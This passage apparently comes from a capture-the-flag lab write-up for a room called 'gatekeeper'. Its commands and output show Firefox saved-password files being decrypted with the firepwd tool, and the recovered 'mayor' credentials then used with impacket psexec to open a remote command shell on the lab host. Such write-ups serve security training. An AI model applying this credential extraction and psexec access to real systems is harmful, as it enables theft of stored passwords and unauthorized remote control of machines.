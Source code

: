 ```
do the same with key4.db file.
now we have thowse two files we can retrieve all possible credentials from them to escalate our privilege.

now move them to firepwd/
```
mv logins.json firepwd/
```
```
mv key4.db firepwd/
```
let's get thowse fucking credentials using firepwd script

```
┌──(root💀kali)-[/home/kali/Desktop/rooms/gatekeeper]
└─# cd firepwd/                                                        1 ⨯
                                                                           
┌──(root💀kali)-[/home/…/Desktop/rooms/gatekeeper/firepwd]
└─# pip install -r requirements.txt
	...
	snip
	...
```
run the script
```
┌──(root💀kali)-[/home/…/Desktop/rooms/gatekeeper/firepwd]
└─# python3 firepwd.py 
	...
	snip
	...

clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'8CL7O1N78MdrCIsV'

```
Excellent, now we have some creds, let's use them with ```psexec```
PSExec: This tool can execute any command on the remote system, including interactive commands such as cmd.exe or powershell.exe
```
python3 /usr/share/doc/python3-impacket/examples/psexec.py gatekeeper/mayor:8CL7O1N78MdrCIsV@10.10.25.76 cmd.exe
```
```
┌──(root💀kali)-[/home/kali]
└─# python3 /usr/share/doc/python3-impacket/examples/psexec.py gatekeeper/mayor:8CL7O1N78MdrCIsV@10.10.25.76 cmd.exe
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.25.76.....
[*] Found writable share ADMIN$
[*] Uploading file IYZpHtGi.exe
[*] Opening SVCManager on 10.10.25.76.....
[*] Creating service KSiY on 10.10.25.76.....
[*] Starting service KSiY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

